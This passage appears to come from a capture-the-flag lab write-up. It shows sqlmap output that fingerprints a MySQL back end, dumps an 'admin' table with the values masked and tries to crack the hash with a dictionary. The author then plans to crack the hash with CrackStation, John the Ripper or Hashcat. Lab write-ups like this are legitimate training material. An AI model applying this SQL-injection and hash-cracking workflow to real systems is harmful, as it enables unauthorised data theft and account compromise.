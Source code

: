 ```
[05:18:30] [INFO] confirming MySQL
[05:18:30] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.29
back-end DBMS: MySQL >= 5.0.0
[05:18:30] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[05:18:30] [INFO] fetching current database
[05:18:30] [INFO] fetching tables for database: 'webapp'
[05:18:30] [INFO] fetching columns for table 'admin' in database 'webapp'
[05:18:30] [INFO] fetching entries for table 'admin' in database 'webapp'
[05:18:30] [INFO] recognized possible password hashes in column 'hash'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
do you want to crack them via a dictionary-based attack? [Y/n/q] Y
[05:18:30] [INFO] using hash method 'sha1_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/txt/wordlist.zip' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[05:18:30] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N
[05:18:30] [INFO] starting dictionary-based cracking (sha1_generic_passwd)
[05:18:30] [INFO] starting 2 processes 
[05:18:39] [WARNING] no clear password(s) found                                
Database: webapp
Table: admin
[2 entries]
+----+------------------------------------------+---------------------+
| id | hash                                     | user                |
+----+------------------------------------------+---------------------+
| 1  | 8xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx1 | xXUxxxxxxxxxxxxxxxx |
| 4  | THM{bxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx8}    | web_flag            |
+----+------------------------------------------+---------------------+
```

> What is the admin's username?

> What is the the web flag? 

### **Code Execution**

There are a few ways to go about using the hash we see here. I prefer to just run the hash against a rainbow table for some low hanging fruit. Should that not work, there's always JohnTheRipper or HashCat. Going to [CrackStation](https://crackstation.net/), I pop the hash in the field, click submit, and get a hit
